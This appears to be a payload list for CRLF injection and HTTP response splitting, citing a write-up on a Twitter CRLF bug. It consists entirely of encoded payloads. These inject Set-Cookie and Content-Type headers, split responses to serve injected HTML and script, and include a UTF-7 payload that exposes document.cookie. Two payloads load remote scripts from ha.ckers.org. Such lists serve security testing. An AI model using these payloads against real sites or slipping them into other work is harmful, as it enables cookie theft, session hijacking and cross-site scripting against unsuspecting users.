 %E5%98%8A%E5%98%8DSet-Cookie:%20test

REF: http://blog.innerht.ml/twitter-crlf-injection/

%0d%0a
%0d%0a%0d%0a
r%0d%0aContentLength:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContentType:%20text/html%0d%0aContentLength:%2019%0d%0a%0d%0a<html>Injected%02Content</html>
%0d%0d%0a%0a
0x0D0x0A
0x0D0x0D0x0A0x0A
\r\n
%5cr%5cn
%0%0d%0ad%0%0d%0aa
%0%0D%0AD%0%0D%0AA
%0d%0aContentType:%20text/html;charset=UTF-7%0d%0aContent-Length:%20129%0d%0a%0d%0a%2BADw-html%2BAD4-%2BADw-body%2BAD4-%2BADw-script%2BAD4-alert%28%27XSS,cookies:%27%2Bdocument.cookie%29%2BADw-/script%2BAD4-%2BADw-/body%2BAD4-%2BADw-/html%2BAD4
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3Ehttp://www.test.com
%0d%0a%0d%0a%3Chtml%3E%3Cbody%3E%3C%2Fbody%3E%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fs.js%3E%3C%2Fscript%3E%3Cscript%3Ealert(%22location.host%20is:%20%22%2Blocation.host)%3C%2Fscript%3E%3C%2Fhtml%3E
%0d%0a%0d%0a%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fxss.js%3E%3C%2Fscript%3E
%22%3E%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E%3C%22
%0AContent-type:%20text/html%0A%0Ahttp://www.test.com/%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0d%0a%0d%0a%3Cscript%3Ealert(%22XSS%22)%3C%2Fscript%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E


